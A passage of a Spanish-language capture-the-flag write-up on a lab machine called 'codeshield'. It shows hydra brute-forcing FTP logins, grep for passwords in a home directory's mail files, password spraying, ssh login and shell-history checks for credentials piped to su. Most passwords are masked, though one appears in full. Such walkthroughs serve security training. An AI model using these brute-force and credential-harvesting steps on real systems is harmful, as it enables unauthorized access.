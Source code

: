 ## Explotación

Con la lista de usuarios generada y las constraseñas del PDF, utilizo **hydra** para realizar un ataque de fuerza bruta.

```
h3rshel@kali:~/Desktop$ hydra -L anarchy_users -P pass 192.168.1.123 ftp -t 48 -v
[...]
[STATUS] 3336.50 tries/min, 6673 tries in 00:02h, 10377 to do in 00:04h, 16 active
[STATUS] 1807.50 tries/min, 7230 tries in 00:04h, 9820 to do in 00:06h, 16 active
[21][ftp] host: 192.168.1.123   login: valdezk   password: *************
```

Bingo!! Ha encontrado una contraseña válida.

## Escalado de privilegios

### valdezk

Al ejecutar **grep** en el directorio **home** en busca de contraseñas, aparece una.

```
valdezk@codeshield:~$ grep -ri password
[...]
.thunderbird/fx2h7mhy.default-release/ImapMail/mail.codeshield.hmv/Trash:Password: D@t*********
[...]
```

Vuelvo a ejecutar **hydra** desde mi máquina kali para encontrar el dueño de esa contraseña.

```
h3rshel@kali:~/Desktop$ hydra -L anarchy_users -p D@taWh1sperer! 192.168.1.123 ftp -t 48 -v
[DATA] attacking ftp://192.168.1.123:21/
[21][ftp] host: 192.168.1.123   login: mitchellt   password: D@t*********
```

### Mitchellt

Me conecto mediante **ssh** como el usuario **mitchellt** y al revisar el historial encuentro otra contraseña.

```
h3rshel@kali:~/Desktop$ ssh mitchellt@192.168.1.123 -p 22222
[...]
mitchellt@codeshield:~$
mitchellt@codeshield:~$ history
    1  echo '****************'| su - earlyp -c "cp -r /home/earlyp/Development/mining ."
    2  echo '****************'| su - earlyp -c "cp -r /home/earlyp/Development/mining /tmp"
    3  cp -r /tmp/mining .
    4  ls
    5  cd mining/
    6  ls
    7  exit
    8  history
```
